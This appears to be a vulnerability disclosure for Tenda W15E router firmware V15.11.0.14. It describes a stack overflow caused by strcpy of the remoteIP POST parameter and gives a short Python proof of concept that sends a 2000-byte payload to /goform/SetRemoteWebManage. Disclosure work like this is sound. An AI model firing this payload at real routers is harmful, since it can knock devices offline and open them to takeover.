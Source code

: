 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formSetRemoteWebManage` function. The `ip` variable receives the `remoteIP` parameter from a POST request and is used in statement `strcpy((char *)temp_value, (const char *)ip);`, which caused the buffer overflow attack.

![image-20240409130925063](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130925063.png)

![image-20240409130854266](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130854266.png)

![image-20240409130910804](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130910804.png)

The user-provided `remoteIP` can trigger this security vulnerability.

## POC

```python
import requests

IP = "192.168.84.101"
url = f"http://{IP}/goform/SetRemoteWebManage"
payload = b'a'*2000
data = {"remoteType": 1,"remoteIP": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409110959426](C:\Users\杨浩然\AppData\Roaming\Typora\typora-user-images\image-20240409110959426.png)